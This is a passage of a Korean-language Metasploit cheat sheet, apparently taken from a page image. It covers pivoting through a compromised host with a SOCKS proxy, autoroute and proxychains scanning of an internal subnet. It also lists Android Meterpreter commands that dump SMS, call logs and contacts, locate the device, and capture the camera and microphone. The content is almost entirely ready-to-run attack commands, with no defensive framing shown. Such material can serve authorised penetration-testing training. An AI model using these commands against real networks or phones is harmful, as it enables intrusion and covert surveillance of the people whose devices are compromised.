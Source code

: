 ## 피벗팅 (Pivoting)

### 멀티홉 공격

```bash
# SOCKS 프록시 설정
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > run -j

# Meterpreter에서 라우트 추가
meterpreter > run autoroute -s 192.168.100.0/24

# ProxyChains로 다른 도구 사용
# /etc/proxychains.conf 수정 후
proxychains nmap -sT 192.168.100.1-254 -p 22,80,443
```

## 모바일 플랫폼 (Android)

### Android Meterpreter

```bash
# Android 세션에서 사용 가능한 명령어

# 기본 정보
meterpreter > sysinfo
meterpreter > getuid

# SMS 조작
meterpreter > dump_sms

# 통화 기록
meterpreter > dump_calllog

# 연락처 정보
meterpreter > dump_contacts

# 위치 정보
meterpreter > geolocate

# 사진/동영상 촬영
meterpreter > webcam_snap
meterpreter > record_mic

# 앱 목록
meterpreter > app_list
```

## 세션 복구 및 재연결
